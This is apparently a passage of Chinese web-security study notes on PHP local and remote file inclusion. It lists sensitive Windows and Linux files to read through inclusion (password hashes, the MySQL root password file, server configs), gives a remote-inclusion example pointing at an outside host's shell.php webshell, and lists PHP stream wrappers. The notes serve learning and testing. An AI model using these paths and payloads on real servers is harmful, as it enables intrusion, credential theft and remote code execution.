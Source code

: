 `allow_url_include = On` 

比如，以get请求实施文件包含攻击，查看服务器本地文件：`?page=a.php`、`?home=b.html`

```
// windows server

c:\boot.ini // 查看系统版本
c:\XX\httpd.conf  Apache配置信息
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini // php 配置信息

// Linux/Unix

/etc/passwd 账户信息
/etc/shadow  账户密码文件
/etc/httpd/conf/httpd.conf  Apache配置文件
/etc/my.conf  mysql 配置文件
/usr/local/app/apache2/conf/httpd.conf  Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf   虚拟网站配置
/usr/local/app/php5/lib/php.ini PHP相关配置
```

### 远程文件包含

**利用条件：**

`allow_url_fopen = On` 是否允许将URL（HTTP，HTTPS等）作为文件打开处理

`allow_url_include = On` 是否允许includeI()和require()函数包含URL（HTTP，HTTPS）作为文件解析处理

远程文件包含漏洞是因为开启了PHP配置中的`allow_url_fopen`选项，选项开启之后，**服务器允许包含一个远程文件**，服务器通过PHP特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。

比如使用 `http://192.168.75.138/shell.php` 来替换原 URL 中包含的文件名，可以远程执行 PHP 脚本。shell.php可以是一个一句话木马。

![image-20220804213230082](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220804213230082.png)

## ==PHP伪协议==（重要）

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
